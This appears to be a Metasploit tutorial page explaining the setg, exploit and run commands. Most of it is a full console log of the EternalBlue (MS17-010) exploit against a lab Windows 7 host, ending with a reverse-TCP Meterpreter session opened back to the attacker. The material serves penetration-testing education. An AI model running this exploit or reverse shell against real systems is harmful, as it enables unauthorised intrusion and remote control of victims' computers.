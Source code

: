 

The    `setg` command sets a global value that will be used until you exit Metasploit or clear it using the    `unsetg` command.



**Using modules**

Once all module parameters are    set, you can launch the module using the `exploit` command. Metasploit also supports the    `run` command, which is an alias created for the `exploit` command as the word    exploit did not make sense when using modules that were not exploits (port scanners, vulnerability scanners, etc.).


The    `exploit` command can be used without any parameters or using the “`-z`” parameter.

The `exploit -z`    command will run the exploit and background the session as soon as it opens.



​            The exploit -z command        

```shell-session
           msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit -z

[*] Started reverse TCP handler on 10.10.44.70:4444 
[*] 10.10.12.229:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.12.229:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.12.229:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.12.229:445 - Connecting to target for exploitation.
[+] 10.10.12.229:445 - Connection established for exploitation.
[+] 10.10.12.229:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.12.229:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.12.229:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.12.229:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.12.229:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.12.229:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.12.229:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.12.229:445 - Sending all but last fragment of exploit packet
[*] 10.10.12.229:445 - Starting non-paged pool grooming
[+] 10.10.12.229:445 - Sending SMBv2 buffers
[+] 10.10.12.229:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.12.229:445 - Sending final SMBv2 buffers.
[*] 10.10.12.229:445 - Sending last fragment of exploit packet!
[*] 10.10.12.229:445 - Receiving response from exploit packet
[+] 10.10.12.229:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.12.229:445 - Sending egg to corrupted connection.
[*] 10.10.12.229:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.12.229
[*] Meterpreter session 2 opened (10.10.44.70:4444 -> 10.10.12.229:49186) at 2021-08-20 02:06:48 +0100
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Session 2 created in the background.
msf5 exploit(windows/smb/ms17_010_eternalblue) >
        
```
